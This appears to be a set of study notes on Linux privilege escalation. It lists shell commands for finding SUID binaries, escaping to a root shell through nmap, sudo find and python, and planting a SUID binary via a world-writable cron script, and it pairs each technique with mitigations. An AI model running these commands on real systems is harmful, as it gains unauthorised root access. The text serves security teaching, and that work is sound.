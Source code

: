 **<span style="text-decoration:underline;">SUID Executable Exploits</span>**

“Set user ID” executes file permissions with a specific user using ‘s’ instead of ‘x’ in the permission set (eg. -rwsr-xr-x allows low privilege users to execute with root privileges). 

<span style="text-decoration:underline;">Nmap “Escape to Shell” Exploit (Older versions of nmap)</span>

* Find executables with SUID bit set: find / -perm -u=s -type f 2>/dev/null
* Confirm nmap has SUID bit set: ls -la /usr/local/bin/nmap
* Run nmap in Interactive Mode: nmap --interactive
* Escape to the shell as root: !sh

Avoid this by:

* Never set SUID on any program that allows escape to shell
* Never set SUID on any editor/comiler/interpreter

**<span style="text-decoration:underline;">SUDO Exploits</span>**

Misconfigured SUDO rights can allow root access through programs that edit code or allow escape to the shell

<span style="text-decoration:underline;">Cmd Execute “Escape to Shell” Exploitls </span>



* Determine commands that run as SUDO: sudo -l
* Find command’s execute parameter: sudo find /home -exec sh -i \;

<span style="text-decoration:underline;">Python “Shell Spawn” Exploit</span>



* Spawn a python shell: sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’

Avoid this by:

* Never give SUDO to any program that allows escape to shell
* Never give SUDO to vi, more, less, nmap, perl, ruby, python, gdb and others

**<span style="text-decoration:underline;">cron job Exploits</span>**

cron jobs usually run with root privilege to poorly configured cron files can allow arbitrary code to be executed

<span style="text-decoration:underline;">World-writable cron script Exploit</span>

* Print world-writeable files find / -perm -2 -type f 2>/dev/null
* Confirm cron file is writeable ls -la /usr/local/sbin/cron-logrotate.sh
* Write C file in /tmp cd /tmp then vi rootme.c
* Compile C file cat rootme.c
* Change exec owner & group to root
echo “chown root:root /tmp/rootme; chmod u+s /tmp/rootme;” >/usr/local/sbin/cron-logrotate.sh
* After 5 mins confirm C file root privilege ls -la rootme
* Run file to spawn root shell ./rootme

Avoid this by:

* Scripts & binaries in cron jobs should not be writable
* cron file should not be writable except for root
* cron.d directory should not be writable except for root
